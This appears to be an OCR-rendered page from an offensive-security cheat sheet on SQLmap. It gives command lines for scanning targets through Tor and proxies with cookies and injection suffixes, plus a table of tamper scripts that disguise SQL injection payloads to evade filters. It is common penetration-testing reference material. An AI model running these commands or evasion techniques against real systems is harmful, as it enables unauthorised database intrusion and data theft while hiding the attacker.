 ### Using TOR with SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Using a proxy with SQLmap

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### Using Chrome cookie and a Proxy

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### Using suffix to tamper the injection

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### General tamper option and tamper's list

```powershell
tamper=name_of_the_tamper
```

| Tamper                       | Description                                                                                                                                        |
| ---------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | --- | --- |
| 0x2char.py                   | Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),…) counterpart                                                          |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                                           |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                                    |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator                 |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                                              |
| charencode.py                | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54)                                 |
| charunicodeencode.py         | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054)       |
| charunicodeescape.py         | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054)   |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                                       |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'                                                                                  |
| commentbeforeparentheses.py  | Prepends (inline) comment before parentheses (e.g. ( -> /\*\*/()                                                                                   |
| concat2concatws.py           | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'                                                                  |
| charencode.py                | Url-encodes all characters in a given payload (not processing already encoded)                                                                     |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)                                                     |
| equaltolike.py               | Replaces all occurrences of operator equal ('=') with operator 'LIKE'                                                                              |
| escapequotes.py              | Slash escape quotes (' and ")                                                                                                                      |